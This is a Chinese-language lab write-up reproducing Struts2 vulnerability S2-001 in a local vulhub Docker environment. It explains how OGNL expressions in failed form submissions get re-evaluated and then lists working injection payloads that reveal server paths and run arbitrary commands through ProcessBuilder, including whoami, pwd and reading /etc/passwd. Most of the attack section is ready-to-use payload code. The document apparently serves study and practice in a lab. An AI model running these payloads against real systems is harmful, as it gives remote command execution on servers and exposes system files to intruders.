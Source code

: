 # Struts2 漏洞S2-001复现学习笔记

## **S2-001复现**

原理：该漏洞因用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用OGNL表达式%{value}进行解析，然后重新填充到对应的表单数据中。如注册或登录页面，提交失败后一般会默认返回之前提交的数据，由于后端使用%{value}对提交的数据执行了一次OGNL 表达式解析，所以可以直接构造 Payload进行命令执行。

### 漏洞环境搭建

https://github.com/vulhub/vulhub/tree/master/struts2/s2-001

运行以下命令进行设置

```
docker-compose build
docker-compose up -d
```

访问 http://127.0.0.1:8080/

![http://127.0.0.1:8080/](E:\学习\picture\image-20220329230339236.png)

### 漏洞poc测试

1.输入**%{‘123’}**，sumbit

![image-20220329230626576](E:\学习\picture\image-20220329230626576.png)

2.返回123，参数值，证明漏洞存在

![image-20220329230736190](E:\学习\picture\image-20220329230736190.png)

### 构造poc

1. #### 获取tomcat路径：

   ~~~
   %{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
   ~~~

   ![image-20220329231256122](E:\学习\picture\image-20220329231256122.png)

   语句执行后，查看返回的语句信息：

   ![image-20220329231351168](E:\学习\picture\image-20220329231351168.png)

2. #### 获取网站真实路径：

   ~~~
   %{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
   ~~~

   ![image-20220329231515325](E:\学习\picture\image-20220329231515325.png)

   ![image-20220329231641526](E:\学习\picture\image-20220329231641526.png)

   

3. #### 构造查看权限的poc：

   ~~~
   %{
   
   #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
   
   #b=#a.getInputStream(),
   
   #c=new java.io.InputStreamReader(#b),
   
   #d=new java.io.BufferedReader(#c),
   
   #e=new char[50000],
   
   #d.read(#e),
   
   #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
   
   #f.getWriter().println(new java.lang.String(#e)),
   
   #f.getWriter().flush(),#f.getWriter().close()
   
   }
   ~~~

   ![image-20220329231953711](E:\学习\picture\image-20220329231953711.png)

4. #### 执行任意命令只需要将上面的poc中whoami替换：

   ~~~~
   %{
   
   #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),
   
   #b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),
   
   #d=new java.io.BufferedReader(#c),
   
   #e=new char[50000],#d.read(#e),
   
   #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
   
   #f.getWriter().println(new java.lang.String(#e)),
   
   #f.getWriter().flush(),
   
   #f.getWriter().close()
   
   }
   ~~~~

   ![image-20220329232113613](E:\学习\picture\image-20220329232113613.png)

5. #### 执行命令（带参数的命令：`new java.lang.String[]{"cat","/etc/passwd"}`）：

   ~~~~
   %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
   ~~~~

   ![image-20220329231930856](E:\学习\picture\image-20220329231930856.png)

### 关闭docker环境

~~~
命令：docker-compose down -v
~~~

